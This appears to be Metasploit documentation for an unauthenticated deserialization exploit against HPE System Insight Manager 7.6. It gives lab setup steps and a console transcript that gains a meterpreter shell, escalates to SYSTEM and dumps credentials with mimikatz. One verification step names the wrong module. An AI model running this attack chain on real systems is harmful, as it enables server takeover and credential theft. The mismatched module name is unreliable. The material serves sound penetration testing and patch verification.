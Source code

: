 ## Vulnerable Application
A remotely exploitable vulnerability exists within HPE System Insight Manager (SIM) version 7.6.x that can be
leveraged by a remote unauthenticated attacker to execute code within the context of HPE System Insight
Manager's `hpsimsvc.exe` process, which runs with administrative privileges. The vulnerability occurs due
to a failure to validate data during the deserialization process when a user submits a POST request to
the `/simsearch/messagebroker/amfsecure` page.

This module exploits this vulnerability by leveraging an outdated copy of Commons Collection, namely
3.2.2, that ships with HPE SIM, to gain RCE as the administrative user running HPE SIM.

### Installing HP SIM 7.6
1. Set up a Windows Server 2016 VM.
1. Sign up for a HP login if you do not have one already. You can use a throw away email address here.
1. Download HPE SIM from https://myenterpriselicense.hpe.com/cwp-ui/download/swd/product/details/HPSIM-Win-7.x.
1. Search for `Turn Windows Features On or Off`, select `Role-based or feature-based installation`, and click `Next`, until you see `Select features`.
1. Check `SNMP Service` and `.NET Framwork 3.5 Features`, and click `Next`, then `Install`. You may need to be connected to the internet to install .NET 3.5.
1. Download SQL Server 2016 SP2 Express from https://www.microsoft.com/en-us/download/details.aspx?id=56840 and run the installer.
1. Open `Computer Management` and then go to `Computer Management (Local)->Services and Applications->SQL Server Configuration Manager->SQL Server Network Configuration->Protocols for SQLEXPRESS` and double click on `TCP/IP`.
1. Set `Enabled` to `Yes` under the `Protocol` tab.
1. Click on the `IP Addresses` tab and set all `TCP Dynamic Ports` fields from `0` to an empty field, and set all `TCP Port` fields to `1433`. Then click the `Apply` button.
1. Restart the SQL service by running `sc stop MSSQL$SQLEXPRESS` and then after a few seconds, run `sc start MSSQL$SQLEXPRESS`
1. Run the HPE SIM installer and when it gets to the `Database Configuration` page, it should default to `Use SQL/SQL Express`.
1. Ensure at this point that the username is `Administrator` (or whatever the name of the administrative user you are installing as is), and the `Domain` and `Host` values are correct, and that the port is `1433`.
1. For the `Password` field, enter the password of the `Administrator` (or whatever the name of the administrative user you are installing as is), and click the `Next` button.
1. Click `Typical` under the installation option and then select `Next`.
1. On the `Service Account Credentials` screen, enter the password for the `Administrative` user and click `Next`. Then click `Install`.
1. Wait for installation to complete, this could take up to 30 min.
1. Verify that you can view https://127.0.0.1:50000/simsearch/messagebroker/amfsecure and that the page returns a HTTP 200 OK response code.

## Verification Steps

1. Install the application ensure port 50000 is open on the target and that the `/simsearch/messagebroker/amfsecure` page is accessible.
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS` option.
1. Set the `TARGET` option if desired.
1. Set an appropriate payload for the `PAYLOAD` option.
1. Set any additional options as required by the previously selected payload
1. Run the exploit

## Options

## Scenarios

### SIM_7.6_Z7550-96287 on Server 2016

```
msf6 > use exploit/windows/http/hpe_sim_76_amf_deserialization
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set TARGET 1
TARGET => 1
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set RHOSTS 172.29.199.4
RHOSTS => 172.29.199.4
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > show options

Module options (exploit/windows/http/hpe_sim_76_amf_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.29.199.4     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      50000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the HPE SIM server
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.29.199.4     no        The target address


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell


msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Found an active amfsecure endpoint on the target!
[*] Started bind TCP handler against 172.29.199.4:4444
[*] Sending stage (200262 bytes) to 172.29.199.4
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.29.199.4:4444) at 2021-03-02 18:32:55 -0600

meterpreter > getuid
Server username: WIN-QKA9JKS5MVU\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > sysinfo
Computer        : WIN-QKA9JKS5MVU
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                              SHA1
--------       ------           ----                              ----
Administrator  WIN-QKA9JKS5MVU  *censored*                        *censored*

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-QKA9JKS5MVU  (null)
WIN-QKA9JKS5MVU$  WORKGROUP        (null)

kerberos credentials
====================

Username                 Domain           Password
--------                 ------           --------
(null)                   (null)           (null)
Administrator            WIN-QKA9JKS5MVU  (null)
MSSQL$SQLEXPRESS         NT Service       (null)
SQLTELEMETRY$SQLEXPRESS  NT Service       (null)
win-qka9jks5mvu$         WORKGROUP        (null)


meterpreter >
```
